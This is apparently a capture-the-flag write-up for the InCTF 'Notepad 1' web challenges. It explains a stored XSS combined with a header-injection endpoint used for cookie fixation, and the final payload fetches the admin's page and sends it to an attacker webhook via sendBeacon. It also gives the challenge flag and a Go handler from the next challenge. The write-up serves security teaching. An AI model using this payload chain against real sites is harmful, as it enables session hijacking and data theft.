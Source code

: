 ### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.

### Solution

In this challenge the note of the user is inserted into the HTML document using `innerHTML` and no sanitization is done on the backend. So a user insert arbitrary HTML and get XSS. But this is just a self-XSS. To get XSS on the admin side, we can use the /find api to set a `Set-Cookie` header and use our own cookie on admin. The final payload is  
```html
<!-- Attacker's note -->
<img src/onerror="eval(window.name)"> 

<!-- Setting a cookie with your Cookie -->
<script>
    window.open(`http://chall.notepad1.gq:1111/find?startsWith=d&debug=y&Set-Cookie=id=${cookie}%3B%20path=/get`)
    // Set cookie to /get so it doesn't delete existing admin cookie
</script>

<!-- Exploiting it -->
<script>
    window.open("http://chall.notepad1.gq:1111",name=`document.cookie='id=${cookie}; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));`)
    // Delete the cookie set by you and then retrieve admin's flag
</script>

```
**Flag:** inctf{youll_never_take_me_alive_ialmvwoawpwe}


## Notepad 1.5 - Arthur's Article

**Number of Solves**: 16  
**Points**: 900  
**Source**: [https://github.com/Az3z3l/Notepad1-Snakeholes_Secret/](https://github.com/Az3z3l/Notepad1-Snakeholes_Secret/)  

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it.

### Solution

In this challenge, the XSS bug is removed and the Header setting part gets weird.

```go
for v, d := range param {
    for _, k := range d {

        if regexp.MustCompile("^[a-zA-Z0-9{}_;-]*$").MatchString(k) && len(d) < 5 {
            w.Header().Set(v, k)
        }
        break
    }
    break
}
```